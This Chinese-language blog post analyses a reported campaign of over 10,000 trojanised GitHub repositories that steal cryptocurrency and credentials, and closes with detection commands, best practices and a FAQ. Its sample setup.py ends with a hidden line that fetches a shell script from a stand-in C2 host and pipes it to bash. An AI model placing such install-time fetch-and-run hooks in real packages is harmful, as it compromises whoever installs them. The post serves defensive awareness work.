

这周安全圈炸了。一个独立开发者，一个人，发现了超过 10,000 个 GitHub 仓库在偷偷分发木马。不是几百个，不是几千个，是整整一万个。这些仓库伪装成各种正常项目——游戏外挂、免费工具、破解软件——但里面都藏着窃取加密货币和凭证的 Trojan。

我花了整个周四晚上把能找到的所有分析文章和 Reddit 讨论翻了一遍。r/hackernews 上那篇帖子直接冲上热榜，但评论区里大家吵成一团。有人说“GitHub 到底在干嘛？”，有人质疑“这数字是不是夸大了？”。我把技术细节扒了扒，发现事情比表面看起来要严重得多。

## 攻击手法解剖：这不是普通钓鱼

先说说这玩意儿是怎么运作的。传统的恶意仓库攻击，要么是直接往代码里塞恶意 payload，要么是依赖仓库所有者妥协后注入后门。但这次不一样——攻击者玩的是“克隆 + 微调 + 自动化分发”的组合拳。



关键点在于“注入恶意代码层”这一步。攻击者没有直接改源码，而是把恶意逻辑藏在：

1. **构建脚本里**：`build.py`、`setup.py`、`Makefile` 这些文件被加了额外步骤，下载第二阶段 payload
2. **依赖配置文件**：`requirements.txt` 或 `package.json` 里指向了恶意包源（typosquatting 变体）
3. **二进制文件**：仓库里塞了编译好的 `.exe` 或 `.so` 文件，README 号称是“加速补丁”或“验证工具”

我看了几个被标记的样本，其中一个 Python 项目的 `setup.py` 里藏了这么一段：

```python
# 看起来正常的 setup.py
from setuptools import setup, find_packages

setup(
    name="legit-tool",
    version="1.0.0",
    packages=find_packages(),
    install_requires=[
        "requests>=2.25.0",
        "cryptography>=3.4.0"
    ]
)

# 但下面这行被悄悄加在了文件末尾
__import__('subprocess').check_call(['curl', '-s', 'http://malicious-c2.example.com/payload.sh', '|', 'bash'])
```

这个 `__import__` 技巧在 Python 社区里其实不算新鲜，但问题在于——`setup.py` 在执行 `pip install` 时会被自动解析和运行。也就是说，你只要 `pip install -r requirements.txt` 或者 `python setup.py install`，恶意代码就触发了。

## 为什么 GitHub 没发现？

这是 Reddit 上吵得最凶的问题。r/programming 那条帖子里有人直接开喷：“GitHub 的安全扫描就是个摆设。” 话是糙了点，但理不糙。

GitHub 的 secret scanning 和 dependency graph 主要针对已知的恶意模式和公开的 CVE。但这波攻击用的是：

- **动态生成的 C2 域名**：每个仓库用的回调地址都不一样，很难通过静态规则匹配
- **代码混淆和编码**：恶意 payload 用 base64 编码后藏在字符串里，只在运行时解码执行
- **低频率更新**：攻击者没频繁改仓库，而是创建完就放着，让它们慢慢被搜索引擎收录

我翻了下 r/zerotomasteryio 上的讨论，有人提到：“最讽刺的是，一个独立开发者做到了 GitHub 整个安全团队没做到的事。” 这话有点极端，但确实点出了核心问题——GitHub 的自动化扫描对这类“看起来像正常项目”的仓库几乎无效。

## 攻击规模和数据

根据目前公开的分析，这 10,000+ 个仓库有几个共同特征：

| 特征 | 描述 | 占比（估计） |
|------|------|------------|
| 创建时间 | 2025 年初至今 | 100% |
| 账号类型 | 新注册账号，无历史活动 | ~95% |
| 仓库内容 | 克隆合法项目 + 注入恶意代码 | ~90% |
| 目标类型 | 加密货币窃取 + 凭证窃取 | 窃取类 ~80%，后门类 ~20% |
| 存活时间 | 从创建到被举报平均 30-60 天 | — |

其中一个关键数据点：这些仓库的平均存活时间是 30 到 60 天。也就是说，在被举报或自动下架之前，它们有足够的时间被搜索到、被克隆、被执行。

## 如何检测这类恶意仓库？

说实话，没有银弹。但有几个实用技巧：

### 1. 检查仓库的“年龄”和“历史”

```bash
# 查看仓库的首次提交时间
git log --reverse --format="%ci" | head -1
# 如果仓库声称是“成熟项目”但首次提交是上周，警惕
```

### 2. 审查构建脚本和依赖文件

```bash
# 检查 setup.py 里有没有可疑的 exec/eval/__import__
grep -rn "exec\|eval\|__import__" setup.py build.py Makefile
# 检查 requirements.txt 里有没有 typosquatting 包
grep -E "requets|panda|numpy|scikit" requirements.txt
```

### 3. 检查二进制文件

```bash
# 列出仓库里的二进制文件
find . -type f -name "*.exe" -o -name "*.dll" -o -name "*.so"
# 如果项目声称是纯 Python 但带了 .exe，基本可以判定有问题
```

### 4. 查看 Issues 和 Pull Requests

真实的开源项目通常有 Issues 讨论、PR 审核记录。如果仓库有 1000+ star 但 Issues 是空的，或者所有 Issues 都是机器人发的，那大概率是刷出来的。

## 社区反应和我的看法

Reddit 上 r/hackernews 那帖子下面，有个评论我印象很深：“我们每天都在 `pip install` 和 `npm install`，从来没想过这些包来自哪里。” 这话说到点子上了。

软件供应链攻击不是新概念，但这次事件暴露了一个残酷的现实：**GitHub 作为全球最大的代码托管平台，对恶意仓库的检测能力严重不足**。不是技术做不到，而是优先级和资源分配的问题。

我在生产环境里见过类似的事。去年有个团队用了某个“轻量级工具库”，结果发现它在后台默默往外部服务器发 HTTP 请求。排查了三天，最后发现是 `package.json` 里一个 typosquatting 包。

## 最佳实践总结

| 实践 | 具体做法 | 优先级 |
|------|---------|--------|
| 锁定依赖版本 | 不要用 `>=`，用 `==` 精确版本 | 高 |
| 使用私有包镜像 | 私有 PyPI/NPM 镜像，只允许经过审查的包 | 高 |
| 审查构建脚本 | 每次更新都 diff `setup.py`、`build.py`、`Makefile` | 中 |
| 定期扫描仓库 | 用 `git log` 和 `diff` 检查异常提交 | 中 |
| 启用代码签名 | 对生产环境的代码签名验证 | 低（但有效） |

## FAQ

**问：GitHub 为什么没检测到这些恶意仓库？**
答：GitHub 的自动化扫描主要针对已知恶意模式，而这波攻击使用了动态生成 C2 域名、代码混淆、低频率更新等手法，绕过了静态规则检测。

**问：受影响的仓库主要是什么类型？**
答：主要是克隆合法项目后注入恶意代码的仓库，伪装成游戏外挂、免费工具、破解软件等，目标是窃取加密货币和登录凭证。

**问：作为开发者，我该怎么保护自己？**
答：不要盲目相信 GitHub 上的仓库。检查仓库的年龄、提交历史、Issues 讨论情况。在运行任何脚本前，手动审查 `setup.py`、`build.py`、`requirements.txt` 等关键文件。

**问：这些恶意仓库的存活时间有多长？**
答：平均 30 到 60 天。攻击者创建后不频繁更新，让它们自然被搜索引擎收录和传播。

**问：有没有自动化工具可以检测这类攻击？**
答：目前没有完美的工具。可以结合 `git log` 审查、依赖文件扫描、二进制文件检测等手段，但最终还是要靠人工审查。

## 参考与社区洞察

本文的技术分析综合自 Hacker News、Reddit（r/hackernews、r/programming、r/zerotomasteryio）以及多个安全研究博客的公开讨论。特别感谢那位独立开发者公开分享了他的发现过程——一个人对抗一万个恶意仓库，这件事本身就值得尊敬。

安全不是买来的，是做出来的。

<script type="application/ld+json">
{
  "@context": "https://schema.org",
  "@type": "FAQPage",
  "mainEntity": [
    {
      "@type": "Question",
      "name": "GitHub 为什么没检测到这些恶意仓库？",
      "acceptedAnswer": {
        "@type": "Answer",
        "text": "GitHub 的自动化扫描主要针对已知恶意模式，而这波攻击使用了动态生成 C2 域名、代码混淆、低频率更新等手法，绕过了静态规则检测。"
      }
    },
    {
      "@type": "Question",
      "name": "受影响的仓库主要是什么类型？",
      "acceptedAnswer": {
        "@type": "Answer",
        "text": "主要是克隆合法项目后注入恶意代码的仓库，伪装成游戏外挂、免费工具、破解软件等，目标是窃取加密货币和登录凭证。"
      }
    },
    {
      "@type": "Question",
      "name": "作为开发者，我该怎么保护自己？",
      "acceptedAnswer": {
        "@type": "Answer",
        "text": "不要盲目相信 GitHub 上的仓库。检查仓库的年龄、提交历史、Issues 讨论情况。在运行任何脚本前，手动审查 setup.py、build.py、requirements.txt 等关键文件。"
      }
    },
    {
      "@type": "Question",
      "name": "这些恶意仓库的存活时间有多长？",
      "acceptedAnswer": {
        "@type": "Answer",
        "text": "平均 30 到 60 天。攻击者创建后不频繁更新，让它们自然被搜索引擎收录和传播。"
      }
    },
    {
      "@type": "Question",
      "name": "有没有自动化工具可以检测这类攻击？",
      "acceptedAnswer": {
        "@type": "Answer",
        "text": "目前没有完美的工具。可以结合 git log 审查、依赖文件扫描、二进制文件检测等手段，但最终还是要靠人工审查。"
      }
    }
  ]
}
</script>


